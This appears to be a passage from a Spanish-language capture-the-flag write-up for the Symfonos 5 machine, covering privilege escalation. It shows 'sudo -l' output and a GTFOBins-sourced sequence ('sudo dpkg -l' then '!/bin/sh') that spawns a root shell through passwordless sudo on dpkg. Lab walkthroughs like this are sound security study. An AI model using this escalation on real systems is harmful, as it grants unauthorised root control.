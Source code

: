 # ESCALANDO PRIVILEGIOS:

- Vemos permisos de sudoers y encontramos lo siguiente:

```bash
zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

- Como podemos apreciar, podemos ejecutar el binario "dpkg" como root sin contraseña, haciendo una búsqueda en [GTFOBins](https://gtfobins.github.io/) nos encontramos con los siguientes comandos que podemos usar para escalar privilegios haciendo uso de este binario:

```
sudo dpkg -l
!/bin/sh
```

- Lo ejecutamos y seremos root.

